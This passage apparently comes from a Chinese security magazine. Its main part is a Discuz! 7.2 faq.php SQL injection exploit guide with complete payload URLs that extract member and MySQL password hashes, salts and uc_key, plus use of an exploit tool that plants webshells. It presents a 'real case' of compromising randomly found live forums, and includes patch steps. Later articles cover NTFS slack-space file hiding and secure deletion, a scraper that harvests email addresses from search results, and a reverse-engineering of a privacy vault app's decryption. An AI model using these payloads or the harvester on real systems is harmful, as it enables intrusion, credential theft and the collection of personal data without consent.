faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=) and (select 1 from (select count(*),concat((select (select (select concat(username,0x27,password) from cdb_members limit 1) ) from `information_schema`.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)%23
```

### 可利用 exp 代码

- 1. 获取 mysql 用户信息
- 2. 获取数据库版本信息
- 3. 获取数据库信息
- 4. 获取数据库用户名和密码
- 5. 获取用户名、email、密码和 salt 信息

```text
(1) http://127.0.0.1/dz72/faq.php?...%29%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28user%28%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23

(2) http://127.0.0.1/dz72/faq.php?...concat%28version%28%29,floor%28rand%280%29*2%29%29x...

(3) http://127.0.0.1/dz72/faq.php?...concat%28database%28%29,0x3a,concat%28user%28%29%29%20%29x...

(4) http://127.0.0.1/dz72/faq.php?...concat((select concat(user,0x3a,password,0x3a) from mysql.user limit 0,1),floor(rand(0)*2))x...

(5) http://127.0.0.1/dz72/faq.php?...（后续 URL 参数同类构造，图片中末尾被截断）
```

```text
...concat%28username,0x3a,email,0x3a,password,0x3a,salt,0x3a,secques%29%20from%20cdb_uc_members%20limit%200,1%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23
（6）获取 uc_key
http://127.0.0.1/dz72/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),0x3a,(select%20substr(authkey,1,62)%20from%20cdb_uc_applications%20limit%200,1),0x3a)x%20from%20information_schema.tables%20group%20by%20x)a)%23
（7）对指定 uid 获取密码
http://127.0.0.1/dz72/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=%29%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28%28select%20concat%28username,0x3a,email,0x3a,password,0x3a,salt%29%20from%20cdb_uc_members%20where%20uid=1%20limit%200,1%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23
```

### 利用 exp 工具使用

网上公布了可利用的 exp 工具，通过该工具可以快速获取管理员密码，但有时候 admin 帐号并不是管理员帐号。利用格式如下：

- 1. 直接获取 webshell，一句话密码为“i0day”。
  `php dz7.2.php www.antian365.com / 1`
- 2. 获取管理密码
  `php dz7.2.php www.antian365.com / 2`

### Discuz!7.2 faq.php 文件 SQL 注入漏洞利用思路

- 1. 通过 exp 直接获取 webshell，如果不能则获取管理员密码。
- 2. 对管理员密码进行破解。通过在 cmd5.com 网站对管理员密码进行查询，需要带 salt，获取的 salt 要去掉最后一个数字“1”，例如下面获取：  
  `php dz7.2.php www.antian365.com / 2`  
  `admin:c6c45f444cf6a41b309c9401ab9a55a7:066ff71，需要查询的是 c6c45f444cf6a41b309c9401ab9a55a7:066ff7`  
  注意：有时候通过工具获取的密码不一定是管理员，这个时候就需要手工获取管理员的密码；还有，如果有 secques，就需要暴力破解。
- 3. 通过 uc_key 获取 shell。
- 4. 进入后台，添加插件获取 webshell。
- 5. `http://www.antian365.com/config.inc.php`，一句话密码 i0day 或者 cmd。

## 修复方法

- 1. 直接删除 faq.php 文件。该文件为显示论坛帮助用的，功能相对独立，可以在服务器禁止该文件的访问，或者直接删除，对论坛常规功能没有任何影响。
- 2. 手工修复 faq.php。用编辑器打开该文件，查找代码：`} elseif($action == 'grouppermission') {`，在其下面添加 `$gids = array();` 即可。

## 实际利用案例

### 1）直接获取 webshell 和管理员密码

通过 Google、百度等搜索引擎搜索“Powered by Discuz! 7.2”，在结果中随机选取一个论坛，然后在命令提示符下输入“php dz7.2.php www1.xxxx.com / 1”以及“php dz7.2.php www1.xxxx.com / 2”，如图 1 所示，直接获取该网站的 webshell 以及管理员密码。


图 1 获取 webshell 以及管理员密码

注意：

需要本地搭建 PHP 运行环境，本案例使用的是 ComsenzEXP X2.5。安装完毕后需要修改 php.ini 文件，该文件在安装该软件的 php 目录中，例如“D:\ComsenzEXP\PHP5”。打开 php.ini 文件，将以下内容修改为实际安装文件的路径，否则执行 php 命令会报错。

```ini
zend_extension_manager.optimizer_ts="D:\ComsenzEXP\PHP5\Zend"
zend_extension_ts="D:\ComsenzEXP\PHP5\Zend\ZendExtensionManager.dll"
```

“/”后需要留一个空格。如果存在漏洞则有结果，无结果则表明无法获取 webshell 或者管理员密码。

在中国菜刀中对上面获取的 webshell 进行连接测试，如图 2 所示，成功获取 webshell。


图 2 对 webshell 进行连接测试

### 2）通过 uc_key 获取 webshell 测试

- （1）获取 uc_key 值

在本地打开 config.inc.php 文件，如图 3 所示，将 UC_KEY 值复制。UC_KEY 可能是 64 位，也可能为 124 位，也可以通过查看数据库中的 cdb_uc_applications 表的 authkey 字段值。


图 3 获取 uc_key 值

- （2）修改 uc_key_dz72_me.php 程序配置

在 uc_key 漏洞利用程序 uc_key_dz72_me.php 中需要手动配置 host 和 uc_key 的值，如图 4 所示。


图 4 修改漏洞利用程序配置

- （3）修改 Discuz! 7.2 实际安装路径

在 uc_key 漏洞利用程序 uc_key_dz72_me.php 中默认是安装在根目录中，但在实际使用中有可能是安装在其他目录，比如 bbs、forum 等。如果不是默认根目录，则需要在 send() 函数中修改 uc.php 真实路径，例如修改为“/dz72/api/uc.php”；如果是默认的则为“api/uc.php”，其他保持不变。


图 5 修改 post 参数

- （4）执行利用程序

在 php.exe 程序所在目录执行“php uc_key_dz72_me.php”，如图 6 所示，会出现“1”的提示，则表明成功获取 webshell。


图 6 执行漏洞利用程序

- （5）查看 config.inc.php 文件

再次打开 config.inc.php 文件，如图 7 所示，uc_key 中新增加了一句话后门代码，使用中国菜刀连接，密码为“cmd”。


图 7 成功获取 webshell

### 3）手动获取 uc_key 和 webshell

- （1）获取 uc_key 前 62 位值

在浏览器中目标地址后加上如下代码：

```
/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),0x3a,(select%20substr(authkey,1,62)%20from%20cdb_uc_applications%20limit%200,1),0x3a)x%20from%20information_schema.tables%20group%20by%20x)a)%23
```

执行后获取 uc_key 前 62 位值，如图 8 所示。


图 8 获取 uc_key 前 62 位值

- （2）获取剩余 uc_key 值

在上述代码中将（authkey, 1, 62）修改为（authkey, 61, 64），如图 9 所示，获取 uc_key 值“j2J6”，去掉“j2”，前后值相加即为 uc_key 的真实值。如果 authkey 的值超过 64 位，则修改为（authkey, 61, 128）。substr() 函数一次只能获取 62 位值。直接使用 substr(authkey, 1, 124) 也只能获取 62 位值，如图 10 所示。


图 9 获取 uc_key 剩余值


图 10 一次只能获取 62 位值

- （3）获取 webshell

将 uc_key 值、host 以及真实的路径值进行修改，然后通过 uc_key 漏洞利用程序，成功获取 webshell，如图 11 所示。


图 11 获取 webshell

- （4）修补程序漏洞

在 faq.php 文件中找到 action==grouppermission 代码所在处，在其后加入代码“$gids = array();”，如图 12 所示，保存后即可修复 faq.php 注入漏洞。


图 12 修复 faq.php 文件注入漏洞

### 4）管理员不是默认的获取 webshell

- （1）获取 admin 密码，但不是管理员账号

对目标网站通过漏洞利用程序，获取管理员账号为 admin 的密码和 salt 值，如图 13 所示。将其在 cmd5.com 进行查询，得到破解后的密码后，使用其进行网站登录，如图 14 所示。虽然为 admin 账号，但不是管理员。


图 13 获取 admin 账号密码


图 14 登录网站

- （2）获取管理团队账号名称和 uid

在论坛中单击“论坛统计”→“管理团队”，如图 15 所示，获取所有管理团队的用户账号名称。单击该账号可以获取 uid 值，分别记下其 uid 值，后续在程序中还有用。


图 15 获取管理员账号和 uid 值

- （3）获取真实管理员的账号、密码和 salt 值

在浏览器中输入以下代码，获取指定 uid 的密码、email、salt 值：

```url
http://www.antian365.com/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=%29%20and%20%28select%201%20from%20%28select%20count%28*%29, concat%28%28select%20concat%28username, 0x3a, email, 0x3a, password, 0x3a, salt%29%20from%20cdb_uc_members where uid=50477 %20limit%200,1%29, floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23
```

执行后通过出错信息获取其相应的值，如图 16 所示。


图 16 获取指定管理员的账号密码和 salt 值

后续步骤与上面的类似，通过破解管理员的密码，登录后台，通过添加插件，成功获取 webshell。

（完）

## 探讨 Windows 下文件反取证的几种方式

文/倪程  成都工业职业技术学校

在互联网信息化高速发展的大环境下，数据信息的扩散传播速度已经是指数级别的，让人防不胜防。往往不轻易之间，你的信息可能就会在各大电子新媒体论坛上出现。因此，如何保护自己的文件不被外泄，做到文件真正地保密，是当前亟待解决的问题。一方面，担心自己的重要电子数据丢失，另一方面又担心自己的数据被窃取。目前，大多数人为了保护自己的数据不被窃取或者泄密，常采用以下几种技术实现：

- 1. 数据文件离散管理。即将文件分散存储，数据信息乱序压缩发散存储。除非离散的各相关子文件都被窃取，否则这种方式在一定程度上可有效地避免数据泄密。
- 2. 数据文件寄宿。即引入多个公开性文件作为机密文件的寄宿体，将文件寄宿到公开性文件未使用到的空闲区域中。这种方式具有极高的隐秘性，但操作方式较为复杂。首先需要寻找符合要求的寄宿文件，然后还需准确定位文件的寄宿位置，需要编写特定软件实现文件寄宿。
- 3. 文件加密。为了不被泄密，直接对文件进行高强度加密，使得文件即便被窃取也是不可读状态。这种技术可以做到一定的保密，但仅仅依赖密码技术实现文件保护，在特定环境下，往往是不可靠的。
- 4. 文件永久擦除技术。为了一劳永逸地消除隐患，直接在磁盘上删除文件，通过 0/1 多次交替覆写方式，实现文件的永久删除。同样，这种方式也存在一定的隐患。随着数据恢复技术的快速发展，这种擦除技术是否就一劳永逸、无法恢复，有待论证。虽然可能利用专业的软件恢复方式，如 EasyRecovery、FinalData 无法做到，但利用硬件电磁干扰技术也许就能实现数据的再现。

本文将结合上述方式展开论述，并重点介绍文件加密离散寄宿和文件永久删除两种技术的实现方式。

## 文件加密离散寄宿技术

文件寄宿方式其实从概念上讲，也可称之为文件隐藏技术。即寻找一定的载体作为寄宿源，在保证原寄宿体不失真的情况下，实现文件隐藏。原文件的不失真现象，技术上也称之为鲁棒性强。

基于图像文件的隐藏。较早的图像隐藏技术一般都是基于 BMP 位图文件的隐藏，因为这种文件的冗余字节较多，可充分利用这些字节实现文件的隐藏。但由于其字节位较为固定，较为专业点的反取证软件一般都会针对性地判断这些字节位是否有可疑信息。随后，人们开始引入密码技术，将文件采用 DES、RSA 加密算法对文件加密后，再按照一定规则离散，然后分散存储到图像文件中；以及后期开始兴起的小波变换技术，利用小波域的图像融合算法实现信息隐藏。

基于磁盘文件的寄宿。本小节重点介绍这种简易且隐秘性较强的方法。通过分析磁盘文件的空闲区域，如文件某段扇区未使用的空间，实现文件隐藏。NTFS 文件系统中，其核心结构为主文件表 MFT，它存储了文件的所有基本信息，包括文件 MAC 时间、文件大小、文件内容或其存放位置等。MFT 占用 2 个扇区共 1024 字节，一般情况下，文件对应的 MFT 表项总存在或多或少的空闲空间。另外，文件占用的磁盘空间最小单位为扇区，占 512 字节大小，绝大多数时候，文件无法占用完所有扇区空间。简言之，可利用的寄宿空间可包括：

- 1. MFT 表项为非目录文件表项且文件内容很大（即不足以在 MFT 表项中存放），此时 MFT 表项只需要描述文件的相关属性信息，会存在大部分空闲字节区域。
- 2. MFT 表项为目录文件表项，但其下对应的子目录及子文件很少，或者其下的子目录及子文件均已删除（当文件删除后，其父目录下的 MFT 表项中 90 属性内容会被清除）。一般情况下，MFT 只占用前一个扇区的一部分内容，后一扇区其本为空。
- 3. 文件大小不等于扇区的倍数。

以 NTFS 文件系统为例，通过遍历整个分区下的 MFT 表项，80 属性下存放了指定文件的实际大小，即在相对 80 属性头偏移 0x30 位置处的 4 字节内容即为文件实际大小；而文件所占簇数则存放在 80 属性的 DataRuns 簇运行结构列表中。根据文件实际大小和文件所占簇数，即可确定文件末簇空闲空间大小，此时我们就可借助 WriteFile 函数和 SetFilePointer 函数对指定的空闲扇区进行写入操作，实现文件隐藏。关键函数代码说明如下：

- 1. 空闲扇区的判断方式

```c
BOOL FindFreeSec(){
    /*tempBuff 设为 MFT 80 属性起始偏移*/
    WORD RunValOffset = *(LPWORD)(tempBuff + 0x20);    //运行偏移
    DWORD runBytes = dwMFT80AttrLen - RunValOffset;    //运行簇占字节数
    pTree->m_fileLen = *(LPDWORD)(tempBuff + 0x30);    //文件实际长度
    tempBuff += RunValOffset;    //运行簇存储位置
    /*根据运行簇占字节数，偏移获取文件各簇号及大小*/
    GetClus_FileContent(tempBuff, runBytes, pNTFSTree);
    DWORD len = pTree->m_fileLen;
    double dwFileFreeSize = 0.0;
    unsigned int vect_size = pTree->pVRunVal.size();
    for(unsigned int i=0; i<max; i++){
        dwFileTotalSec += pTree->pVRunVal[i]->dwTotalSecNum;
    }

    if(len % 512 == 0) dwFileSecNum = len / 512;
    else dwFileSecNum = len / 512 + 1; //文件实际所占扇区数
    if(dwFileTotalSec >= dwFileSecNum){
        dwFileFreeSize = (double)(dwFileTotalSec - dwFileSecNum) / 2.0;
        dwFileSec = dwFileTotalSec - pTree->pVRunVal[max-1]->dwTotalSecNum;
        /*文件空闲的起始扇区数=运行簇最后一结构体表示的起始簇号+文件实际扇区数-运行簇前几个结构占用的簇数*/
        DWORD dwHideStartSec = pTree->pVRunVal[max-1]->dwStartSecNum + dwFileSecNum - dwFileSec;

        pTree->m_fileHideSize = dwFileFreeSize;
        pTree->m_HideStartSec = dwHideStartSec;
    }
}
```

- 2. 指定扇区位置文件的写入方法

```c
BOOL WriteDisk(HANDLE hpartition, DWORD dwSector, DWORD dwLength, char* lpBuffer){
    DWORD dwCB;
    LARGE_INTEGER offset;
    offset.QuadPart = UInt32x32To64(dwSector, 512);
    SetFilePointer(hpartition, offset.LowPart, &offset.HighPart, FILE_BEGIN);
    if(!WriteFile(hpartition, lpBuffer, dwLength * 512, &dwCB, NULL)){
        ...
    }
}
```

```c
DWORD error = GetLastError();
MessageBox(NULL, "write file error!", NULL, IDOK);
return FALSE;
}
return TRUE;
}
```

结合上述方法介绍，读者可采用常规的二叉树先序遍历算法实现指定磁盘分区的遍历，搜索满足条件的寄宿文件，然后选择此文件实施隐藏。文件恢复的时候也只需根据隐藏时的两个参数变量：起始扇区数、文件大小，准确重构原文件。

## 文件永久删除技术

文件假删除现象。我们通常采用“Delete”键将文件拖入回收站，或者采用组合键“Shift+Delete”对文件删除后，存储在磁盘扇区内的数据并没有删除，系统仅仅是对文件属性区域内的标记进行了简单置位，标识文件已经删除。采用各种现有的数据恢复软件，均可实现数据再现。

据称，目前高级恢复技术可恢复已覆盖 6-9 次的数据文件。为实现数据的彻底销毁，建议大家至少进行 4-5 次交替覆写操作，如对文件扇区内容交替地置位 0 和 1。有些程序员通过循环多次写操作，以为已经实现了磁盘的真正多次写入。然而，实际上系统并没有进行多次 I/O 操作，仅仅是将文件内容写入内存缓冲区，直至程序最后退出时，才写入磁盘。这种结果直接导致仅对目标文件做了一次覆写，通过专业的数据恢复软件都可实现恢复，显然没有达到效果。内容多次写入磁盘的核心代码：

```csharp
/*计算文件所占扇区数*/
long outputFileSize = (long)Math.Ceiling((double)fi.Length / 512);
for (int x = 0; x < MaxWritesTime; x++){
    hFile = CreateFile(targetFile, FileAccess.Write, FileShare.None, IntPtr.Zero,
        OPEN_EXISTING,
        FILE_FLAG_WRITE_THROUGH | FILE_FLAG_NO_BUFFERING,
        IntPtr.Zero);
    uint bytesWritten;
    byte[] charToWrite = new byte[512 * outputFileSize];
    if(x % 2){
        for (int z = 0; z < charToWrite.Length; z++) charToWrite[z] = 49;
    } else {
        for (int z = 0; z < charToWrite.Length; z++) charToWrite[z] = 48;
    }

    bool retVal = false;
    System.Threading.NativeOverlapped no = new System.Threading.NativeOverlapped();
    // 写入指定内容至磁盘卷的指定扇区
    retVal = WriteFile(hFile, charToWrite, (uint)(charToWrite.Length),
        out bytesWritten, ref no);
    File.Delete(targetFile);
```

其中，“FILE_FLAG_WRITE_THROUGH | FILE_FLAG_NO_BUFFERING”即要求操作系统不得推迟对文件的写操作，并禁止对文件进行缓冲处理。为了使用方便，还可以将可执行文件添加到注册表中，如：

```reg
[HKEY_CLASSES_ROOT\\*\\shell\\文件销毁\\Command]
@="\"C:\\Windows\\System32\\FileDel.exe\" \"%1\""
```

此时，当选择指定的待销毁文件并点击右键时，系统会在弹出菜单中显示“文件销毁”子菜单，选择文件销毁，文件将会按照上述要求完成销毁。当然，这里的 Delete API 函数有可能会因为各种原因导致删除失败。读者也可以通过底层驱动程序实现文件删除，如通过改变文件对象 SECTION_OBJECT_POINTERS 结构体成员值，断开与文件相关的所有链，然后发送 Delete IRP 请求实现文件强删除。

## 小结

本文简要介绍了文件反取证技术实现方式，并对基于磁盘文件的寄宿隐藏及文件永久删除技术做了详细分析，给出了如何搜索指定磁盘分区下所有满足条件的寄宿文件思路及永久删除文件的方法。

## 基于搜索引擎编写邮箱采集器

文/图 聆靓

最近应朋友请求，做了一个网页邮箱信息采集器，要通过录入的关键词，获取百度中搜索的结果，并跳转到搜索到的网页中，查找关键词是否存在。如果存在，并且在该页面中包含邮箱字符串，则将该 URL 和邮箱一并存入数据库中。

首先要对百度搜索页面进行分析，看看怎样获得关键词的搜索结果，并要搞清相关搜索信息的翻页。此时应该就可以获得相关网页的 URL 了，再通过该 URL 跳转到相关页面，在获取页面信息后查找是否存在关键词。如果存在，再查找是否存在符合邮箱格式的字符串，并且与输入的关键字不同，就把这个 URL 和邮箱字符串保存到数据库中。

接下来分析一下百度搜索的网页，我以关键词“小苹果”测试，获得搜索页面如图 1 所示。


URL：

http://www.baidu.com/s?wd=%E5%B0%8F%E8%8B%B9%E6%9E%9C&rsv_spt=1&issp=1&rsv_bp=0&ie=utf-8&tn=baiduhome_pg&rsv_n=2&rsv_sug3=1&rsv_sug4=21&rsv_sug1=1&rsv_sug2=0&inputT=1193&rsv_sug=1

这么长的 URL，每个参数什么意思除了 wd 参数是我查询的关键词比较明确以外，其余参数都几乎不明确。不要紧，翻两页看看，第二页、第三页点点看就发现了规律。这个 URL 部分是每个页面都一样的，只有 pn 这个参数不同。

http://www.baidu.com/s?wd=%E5%B0%8F%E8%8B%B9%E6%9E%9C&ie=utf-8&tn=baiduhome_pg&oq=%E5%B0%8F%E8%8B%B9%E6%9E%9C&usm=4&rsv_spt=1&issp=1&rsv_bp=0&rsv_n=2&rsv_sug3=1&rsv_sug4=21&rsv_sug1=1&rsv_sug2=0&inputT=1193&rsv_sug=1&pn=10

例如第二页 pn=10，第三页 pn=20，以此类推。

这个 URL 还是有些长，试试去掉几个参数能不能成功查询。经过几次尝试，发现竟然可以如此简单：

http://www.baidu.com/s?wd=%E5%B0%8F%E8%8B%B9%E6%9E%9C&pn=10

只保留 wd（搜索词参数）和 pn（分页参数）就可以了。

再试试百度到底能为我提供多少页面。例如搜索的关键词“小苹果”页面下方显示“百度为您找到相关结果约 100,000,000 个”。百度真能这么慷慨地提供这么多结果吗？试试就知道。按照平均一页 10 个的搜索数量，我先看看能获得 100 个吗，就是第 10 页。设置 pn=90，显然可以；500 个可以吗？pn=490，也 OK；那 1000 个呢，pn=990，返回的是第一页，说明百度对这个词好像不能提供 1000 个搜索结果。那就试试最多能获得多少结果。根据我的测试，“小苹果”这个词可以翻到 76 页，按照差不多一页 10 个结果算，大约 760 项。通过其他关键词测试，也满足这个结果。

现在知道百度最多只能提供 76 页结果，作为分页的一个极大值条件，用以避免出现错误的循环查找。那么如何知道对于一个给定的关键词，最多能获得几页的结果呢？看来还要继续分析网页才能知道。随便选定一个怪异的搜索词“asdfasdfwwww”，这次只有两页结果。

再通过提交一个关键词，依靠返回的第一页查看是否有其他页面可用，如果有就记录最大值，方案如图 2 所示。


图 2

在第一页中搜索分页最大值，记录下来，然后一页一页地加，当到达第 7 页的时候，发现第 11 页，此时将 11 记录下来，直到满足页数=76 的上限，或搜索到记录下的最大页数时停止，如图 3 所示。


图 3

好了，规律先找到这里，下面开始进行百度页面的代码分析。使用 Chrome 的调试程序，按 F12 或 Ctrl+Shift+I 可以快速调出。例如根据第一页的搜索结果，如图 4 所示：


图 4

可以写出正则“`<h3[^>]+class="t"[^>]*>(.|[\r\n])*?<a[^>]*href\s*=\s*"[^"]*"[^>]*>`”，然后在结果集中获取 a 标签的 href 属性。在 Chrome 的调试程序的“console”标签中，随便输入一个关键词，使用语句

```javascript
document.body.outerHTML.match(/<h3[^>]+class="t"[^>]*>(.|\r|\n)*?<a[^>]*href\s*=\s*"[^"]*"[^>]*>/img)
```

可以正确获得 a 标签。

通过类似的方式，可以获得百度分页的正则表达式“`<p.*?(?=(id="page")).*?>.*?</p>`”，再在结果集中使用正则“`<span[^>]*?class="pc"[^>]*?>\d+</span>`”查找具体可以获得的分页，取出其中的数字即可。

对百度的分析完成了，然后就是通过 CURL 访问百度，抓取搜索结果，再通过搜索结果访问具体页面了。

编码中主要使用 CURL 进行网络通信，CURL 是一个功能强大的开源库，网上关于 CURL 的资料比较全面。在这里，简要介绍一下此程序中使用到的函数。

```cpp
curl_global_init(CURL_GLOBAL_ALL);

curl = curl_easy_init();

curl_easy_setopt(curl, CURLOPT_URL, strURL.c_str());  // 设置 URL
curl_easy_setopt(curl, CURLOPT_SSL_VERIFYHOST, 0L) 和 curl_easy_setopt(curl, CURLOPT_SSL_VERIFYPEER, 0L) 方法，设置 SSL，跳过服务器 SSL 验证，不使用 CA 证书。
curl_easy_setopt(curl, CURLOPT_MAXREDIRS, 30);  // 设置最大跳转次数
curl_easy_setopt(curl, CURLOPT_FOLLOWLOCATION, 1);  // 设置 301、302 跳转跟随
curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, NetExplorer::httpData_callback);  // 抓取内容后，回调函数
curl_easy_setopt(curl, CURLOPT_WRITEDATA, &szbuffer);  // 抓取网页的数据缓冲区
curl_easy_setopt(curl, CURLOPT_HEADERFUNCTION, NetExplorer::httpHeader_callback);  // 抓取头信息，回调函数
curl_easy_setopt(curl, CURLOPT_HEADERDATA, &szheader_buffer);  // 设置头信息的缓冲区
curl_easy_perform(curl) 进行网页访问，返回结果 CURLE_OK 时表示访问成功。
```

实现流程见程序，这里就不再赘述。

数据库 WebSearch 中，表 QueryInfo 中每一行表示一次搜索，KeyWord 字段为搜索的关键字，QueryDateTime 表示搜索的时间。

表 Email 中 QueryInfoID 表示该条记录是由哪次关键词搜索产生的，URL 表示发现该邮箱的 URL 地址，Email 字段表示找到的邮箱。

还需要注意的一点是，由于 Access 数据库需要 Microsoft.ACE.OLEDB.12.0 数据驱动，所以如果机器没有安装 Office 2007 会报数据库错误，可以自行安装 Office 2007 的 Access 数据库，或安装相应驱动，下载网址：http://www.microsoft.com/zh-cn/download/details.aspx?id=23734。

## 解密金山隐私保险箱

文/图 莫灰灰

信息化时代的高速发展，同时也孕育了更多的网络攻击。网银被盗、隐私信息泄露等无疑成为了广大网民最为关注的问题。几年前，“艳照门”事件的曝光，更是引发了互联网的一阵恐慌。

如今，移动互联网的迅速普及，手机相机的像素也越来越高，我们可以很方便地使用手机拍摄自己感兴趣的东西并上传到朋友圈、微博等。但是，这同时也引入了另外一个问题，拍了这么多东西，总有自己的一些隐私数据是不想对外公开的。于是，各大互联网安全厂商纷纷推出了能在移动设备上加密照片、音乐、视频等文件的应用程序。但是，这些应用真的能有效地保护好用户的隐私数据吗？实现原理又是什么呢？带着这些疑问，今天我们就来分析下“金山隐私保险箱”的实现原理。

### 测试环境

- 红米 TD 版
- 百度云 ROM 正式版 V6
- 金山隐私保险箱 1.3Beta2

### 程序分析

金山隐私保险箱安装完之后，加密一张自己拍的照片。此时，程序会将加密好的文件保存到 sd 卡的 .ksbox 目录下，如图 1 所示。


图 1

将 .ksbox 目录导出到本地，使用 sqlite expert 工具打开 db.sqlite 文件，表结构如图 2 所示。


图 2

根据表结构我们大致可以知道，原始文件名、文件大小、被加密后的文件名等信息。知道了这些基本信息，我们接下来使用 APK IDE 解包程序，发现金山隐私保险箱自己实现了一个 ImageInputStream 的类，派生自 InputStream，具体的实现文件为 com/ijinshan/mPrivacy/c/j.smali，如图 3 所示。


图 3

使用 APK IDE 搜索 Lcom/ijinshan/mPrivacy/c/j，结果如图 4 所示。


图 4

定位到第一个 new-instance 的地方，代码如下所示，只截取我们所关注的部分。

```smali
# 解码一个 input stream 到 Bitmap
.method private static a(Ljava/lang/String;I)Landroid/graphics/Bitmap;
    .locals 11
    .prologue
    const/4 v3, 0x1
    const/4 v9, -0x1
    const/high16 v6, 0x3f800000
    const/4 v8, 0x0
    .line 197
    .line 200
    :try_start_0
    # 新建一个自定义的 InputStream 对象
    new-instance v0, Lcom/ijinshan/mPrivacy/c/j;
```

### 使用文件初始化 InputStream

```smali
invoke-direct {v0, p0}, Lcom/ijinshan/mPrivacy/c/j;-><init>(Ljava/lang/String;)V
.line 201
invoke-virtual {v0}, Lcom/ijinshan/mPrivacy/c/j;->available()I
move-result v1
if-ne v1, v9, :cond_0
move-object v0, v8
.line 264
:goto_0
return-object v0
.line 205
:cond_0
# 新建一个 BitmapFactory 对象
new-instance v1, Landroid/graphics/BitmapFactory$Options;
invoke-direct {v1}, Landroid/graphics/BitmapFactory$Options;-><init>()V
.line 208
const/4 v2, 0x1
iput-boolean v2, v1, Landroid/graphics/BitmapFactory$Options;->inJustDecodeBounds:Z
.line 209
const/4 v2, 0x0
# 调用 BitmapFactory 的 decodeStream 方法，解码 input stream 到 Bitmap
invoke-static {v0, v2, v1}, Landroid/graphics/BitmapFactory;->decodeStream(Ljava/io/InputStream;Landroid/graphics/Rect;Landroid/graphics/BitmapFactory$Options;)Landroid/graphics/Bitmap;
```

调用 decodeStream 函数之后，就会进入我们派生的 ImageInputStream 类中。该类重写了 read 方法，主要用来自定义解码算法。我们来看下主要代码：

```smali
.method public final read([BII)I
.locals 7
.prologue
const/4 v6, 0x0
const/16 v5, 0x400
.line 61
iget-object v0, p0, Lcom/ijinshan/mPrivacy/c/j;->a:Ljava/io/FileInputStream;
# p2 (byteOffset), p3 (byteCount) =0x10000
invoke-virtual {v0, p1, p2, p3}, Ljava/io/FileInputStream;->read([BII)I
move-result v0
.line 63
const/4 v1, -0x1
# 判断返回值是否为-1，-1 即读到文件末尾
```

```smali
if-ne v0, v1, :cond_0
.line 103
:goto_0
return v0
.line 70
:cond_0

# f 保存了已读的字节数
iget-wide v1, p0, Lcom/ijinshan/mPrivacy/c/j;->f:J
const-wide/16 v3, 0x400
cmp-long v1, v1, v3
# 判断已读的字节数是否大于或等于 0x400 字节
if-gtz v1, :cond_5
# 第一次读的话，执行如下代码
.line 73
# e 是个 bool 值，判断是否已经解密了前面的 0x400 字节
iget-boolean v1, p0, Lcom/ijinshan/mPrivacy/c/j;->e:Z
if-nez v1, :cond_1
# 第一次读取，未解密，执行如下代码
.line 75
iget-object v1, p0, Lcom/ijinshan/mPrivacy/c/j;->c:Lcom/ijinshan/mPrivacy/c/g;
# b 是个 String 类型的变量，其中保存了加密后文件的路径，例如 /storage/sdcard0/.ksbox/6b2c357d
iget-object v1, p0, Lcom/ijinshan/mPrivacy/c/j;->b:Ljava/lang/String;
# 调用 g:->b 方法，解密前面 0x400 字节
invoke-static {v1}, Lcom/ijinshan/mPrivacy/c/g;->b(Ljava/lang/String;)[B
move-result-object v1
# 将解密出来的字节数组保存到 d 变量中
iput-object v1, p0, Lcom/ijinshan/mPrivacy/c/j;->d:[B
.line 76
iget-object v1, p0, Lcom/ijinshan/mPrivacy/c/j;->d:[B
# 判断字节数组是否为空
if-eqz v1, :cond_1
.line 77
const/4 v1, 0x1
# 返回不为空，那么设置变量 e 为 true，即解密成功
iput-boolean v1, p0, Lcom/ijinshan/mPrivacy/c/j;->e:Z
.line 80
:cond_1
# v0 寄存器保存了实际读取到的字节数，p3 是想要读取的字节数，即 0x10000
if-ge v0, p3, :cond_3
move v1, v0
.line 82
```

```smali
:goto_1
# v2 = byteOffset + 实际读到的字节数
add-int v2, p2, v1
# 如果 v2 大于 0x400，就跳到 cond_4
if-gt v2, v5, :cond_4
.line 84
iget-object v2, p0, Lcom/ijinshan/mPrivacy/c/j;->d:[B
if-eqz v2, :cond_2
.line 85
# 将前面解密的数据赋给 v2 寄存器
iget-object v2, p0, Lcom/ijinshan/mPrivacy/c/j;->d:[B
# v2 拷贝到 p1，p2 为 srcOffset，v6 是 desOffset，v1 为拷贝大小
invoke-static {v2, p2, p1, v6, v1},
Ljava/lang/System;->arraycopy(Ljava/lang/Object;ILjava/lang/Object;II)V
.line 100
:cond_2
:goto_2
# 已经读取的字节数
iget-wide v1, p0, Lcom/ijinshan/mPrivacy/c/j;->f:J
# v0 为实际读到的字节数，转成 long，保存到 v3
int-to-long v3, v0
add-long/2addr v1, v3
# 本次实际读到的字节数 + 以前已经读取的字节数，保存到 f 变量
iput-wide v1, p0, Lcom/ijinshan/mPrivacy/c/j;->f:J
goto :goto_0
:cond_3
move v1, p3
.line 80
goto :goto_1
.line 89
:cond_4
if-ge p2, v5, :cond_2
.line 91
iget-object v1, p0, Lcom/ijinshan/mPrivacy/c/j;->d:[B
if-eqz v1, :cond_2
.line 92
iget-object v1, p0, Lcom/ijinshan/mPrivacy/c/j;->d:[B
sub-int v2, v5, p2
# 后面的数据不用解密，直接拷贝即可
invoke-static {v1, p2, p1, v6, v2},
Ljava/lang/System;->arraycopy(Ljava/lang/Object;ILjava/lang/Object;II)V
goto :goto_2
.line 98
# 如果已读的字节数大于 0x400，就跳到这里执行
```

```smali
:cond_5
const/4 v1, 0x0
# 清空 d 变量
iput-object v1, p0, Lcom/ijinshan/mPrivacy/c/j;->d:[B
goto :goto_2
.end method
```

